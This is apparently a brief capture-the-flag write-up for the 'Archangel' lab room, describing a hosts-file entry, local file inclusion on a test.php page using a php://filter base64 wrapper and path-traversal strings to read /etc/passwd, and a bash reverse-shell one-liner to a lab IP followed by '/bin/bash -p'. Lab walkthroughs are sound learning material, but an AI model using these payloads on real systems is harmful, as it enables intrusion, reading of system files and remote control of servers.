

# Archangel



I added the following line to `/etc/hosts`.
```
<IP>     mafialive.thm
```

Then I went there and got the first flag. Then I realized that I can do `LFI` so I got the php page using base64 wrapper and got the second flag.

```
curl http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././.././.././.././.././../etc/passwd

bash -i >& /dev/tcp/10.2.116.12/3333 0>&1

```

```
/bin/bash -p

to spawn a reverse-shell
```